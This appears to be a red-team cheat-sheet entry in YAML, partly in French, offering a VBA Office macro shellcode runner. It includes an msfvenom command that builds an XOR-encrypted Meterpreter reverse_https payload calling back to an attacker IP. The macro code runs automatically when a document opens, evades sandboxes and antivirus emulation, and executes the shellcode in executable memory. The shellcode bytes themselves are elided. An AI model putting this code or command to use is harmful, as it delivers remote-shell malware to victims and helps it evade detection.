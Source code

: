 ```yaml
---
description: |
  Le shellcode runner dans une macro VBA peut être utilisé à l'intérieur d'un produit Office. Ce code utilise un shellcode crypté avec XOR et dispose d'une fonction Sleep qui garantit qu'il n'est pas testé contre un émulateur AV.

  Command Reference:

  	byte[] buf: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a


command: |
    VBA ShellcodeRunner macro to use in Office products

code: |
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr
    Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr
    Private Declare PtrSafe Function Sleep Lib "kernel32" (ByVal mili As Long) As Long
    Private Declare PtrSafe Function FlsAlloc Lib "kernel32" (ByVal lpCallback As LongPtr) As Long

    Sub Document_Open()
      ShellcodeRunner
    End Sub

    Sub AutoOpen()
      ShellcodeRunner
    End Sub

    Function ShellcodeRunner()
      Dim buf As Variant
      Dim tmp As LongPtr
      Dim addr As LongPtr
      Dim counter As Long
      Dim data As Long
      Dim res As Long
      Dim dream As Integer
      Dim before As Date
  
      ' Check if we're in a sandbox by calling a rare-emulated API
      If IsNull(FlsAlloc(tmp)) Then
        Exit Function
      End If

      ' Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
      dream = Int((1500 * Rnd) + 2000)
      before = Now()
      Sleep (dream)
      If DateDiff("s", t, Now()) < dream Then
        Exit Function
      End If

      ' msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.240.178 LPORT=443 EXITFUNC=thread -f vbapplication --encrypt xor --encrypt-key a
      buf = Array(31, 33, ..., 33, 37)

      ' XOR-decrypt the shellcode
      For i = 0 To UBound(buf)
        buf(i) = buf(i) Xor Asc("a")
      Next i

      ' &H3000 = 0x3000 = MEM_COMMIT | MEM_RESERVE
      ' &H40 = 0x40 = PAGE_EXECUTE_READWRITE
      addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)

      For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
      Next counter

      res = CreateThread(0, 0, addr, 0, 0, 0)
    End Function


items:
    - Shell
services:
    - 
OS:
    - Windows
    - Approved-tool
attack_types:
    - Persistence
    - Injection
references:
    - https://ppn.snovvcrash.rocks/red-team/maldev/code-injection/shellcode-runners#c-dll-with-powershell-cradle-in-memory
--- 
```



